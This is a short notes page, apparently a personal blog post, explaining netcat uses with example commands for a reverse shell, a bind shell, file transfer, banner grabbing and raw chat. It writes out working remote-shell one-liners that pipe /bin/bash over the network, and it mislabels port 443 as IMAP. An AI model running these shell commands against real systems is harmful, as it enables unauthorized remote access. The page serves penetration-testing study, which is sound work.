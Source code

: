 ```yaml
---
layout: post
title: 'Netcat'
permalink: 'netcat'
category: notes
---
```


## Table of Contents
* [Reverse shell](#reverse-shell)
* [Bind shell](#bind-shell)
* [File transfer](#file-transfer)
* [Banner grabbing](#banner-grabbing)
* [Raw chat](#raw-chat)

Netcat can read & write TCP/UDP ports. Here are a few different use-cases for it.

## Reverse Shell

A Reverse Shell involves opening a port locally and then, getting a remote node to send you a shell. As a metaphor, imagine Bob has a mailbox (the port). Since he is interested in what is going on elsewhere, he gets Alice to give him a subscription to the city newspaper (a shell) where she lives. Instead of driving downtown and directly probing for information, Bob simply waits for the newspaper to show up.

By the way, for those who have not caught on yet (took me a while) the character of Alice is used to denote “point A” while Bob is used as “point B.” Therefore, one can infer a direction by following the normal convention of “point A to point B.”

In the following example, Bob has the IP address of `192.168.5.2`.
```bash
nc -lnvp 8888			# Bob; the mailbox
```
```bash
nc -nv -e /bin/bash 192.168.5.2 # Alice; the newspaper
```
```bash
[ Intranet | Extranet ]
        Firewall
	   |
	   |
     {     |x----}	# Bob can't get a Bind Shell (inbound rules)
Alice{	   | 	 }Bob
     {~~~~~|~~~~>}	# So he uses a Reverse Shell (no proxy/outbound rules)  
     	   |     
	   |	  
```

## Bind Shell
```bash
nc -lnvp 8888 -e /bin/bash # binds a shell to port 8888
```
```bash
nc -nv 192.168.5.1 8888	   # accesses port/shell on the remote node
```

## File Transfer
Open a port, direct everything a file. Redirect file to recently opened port.
```bash
nc -lnvp 8888 > incoming.exe 	       		# do on system needing file
```
```bash
nc -nv 192.168.5.1 8888 < /path/to/file.exe 	# do on system with file
```

## Banner Grabbing
Banner grabbing is a technique used to collect service version information from a remote node. For example, each command sentence below provokes verbose output from a target.
```bash
nc -nv 192.168.5.2 25  # SMTP
nc -nv 192.168.5.2 110 # POP3
nc -nv 192.168.5.2 443 # IMAP
```

## Raw Chat
Output will be the same on both ends of the socket.
```bash
nc -lnvp 8888	   # server; his IP address = 192.168.5.1
nc -nv 192.168.5.1 # client; connects to server
```
